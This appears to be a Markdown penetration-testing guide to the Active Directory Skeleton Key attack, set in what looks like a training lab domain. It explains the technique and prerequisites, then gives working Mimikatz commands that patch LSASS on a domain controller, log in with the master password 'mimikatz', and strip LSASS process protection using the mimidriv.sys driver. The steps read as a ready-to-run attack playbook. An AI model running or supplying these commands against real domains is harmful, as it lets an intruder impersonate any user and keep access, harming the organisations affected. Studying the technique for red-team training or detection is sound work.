 # Skeleton Key Attack

A Skeleton Key Attack is a type of cyber-attack that exploits a vulnerability in Microsoft's Active Directory (AD) authentication system. This attack involves the use of a backdoor password added to an AD domain's credentials cache, allowing the attacker to bypass normal authentication procedures and access any account in the domain without knowing the account's password.

By inserting their own key in the LSASS process of the DC, the attacker can access the DC or any other machine in the entire domain using a valid username and the skeleton key as the password.

## Attack Details

The Skeleton Key Attack is performed by gaining administrative access to an AD domain controller and injecting the backdoor password into the domain's credentials cache. Once injected, the attacker can use the backdoor password to authenticate to any account in the domain by simply appending the password to the account's username.

This attack is particularly dangerous because it allows unauthorized access to any account in the domain, including highly privileged accounts such as domain administrators. Additionally, the attacker can maintain access to the domain even if the domain's administrator passwords are changed.

### Key Points

- Skeleton key is a persistence technique where it is possible to patch a Domain Controller (LSASS process) to allow access as any user with a single password.
- The attack was discovered by Dell SecureWorks and was used in malware named Skeleton Key malware.
- All publicly known methods are NOT persistent across reboots.
- Performing this attack requires DC privileges.
- It is possible to access any machine with a valid username and password as "mimikatz".

# Prerequisites for Performing the Skeleton Key Attack

| Prerequisite          | Details                                                                                           |
|-----------------------|---------------------------------------------------------------------------------------------------|
| **Administrative Access** | Required to gain access to the AD domain controller.                                           |
| **Domain Controller (DC)** | The attack needs to be performed on a Domain Controller.                                      |
| **Mimikatz Tool**       | Required to inject the skeleton key and manipulate the LSASS process.                           |
| **Privilege Escalation**  | Ability to gain DA (Domain Admin) privileges to execute commands and inject the backdoor password. |
| **Script or Command Execution** | PowerShell or another scripting tool to run Mimikatz and other necessary commands.          |
| **Awareness of LSASS Protection** | Knowledge of handling LSASS if it is running as a protected process, possibly involving `mimidriv.sys`. |

Ensure all the above prerequisites are met before attempting to perform the attack.

## Steps to Perform Skeleton Key Attack

### Inject Skeleton Key
Use the below command to inject a skeleton key (password would be `mimikatz`) on a Domain Controller of choice. DA privileges required.
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

### Access Any Machine
Now, it is possible to access any machine with a valid username and password as `mimikatz`.
```powershell
PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\Administrator\Documents> whoami
dcorp\administrator
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\Administrator\Documents> hostname
dcorp-dc
```

You can access other machines as long as they authenticate with the DC that has been patched and the DC is not rebooted.

### In Case LSASS is Running as a Protected Process
If LSASS is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (`mimidriv.sys`) on disk of the target DC:
```powershell
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
Note that the above steps would be very noisy in logs due to Service installation (Kernel mode driver).
```
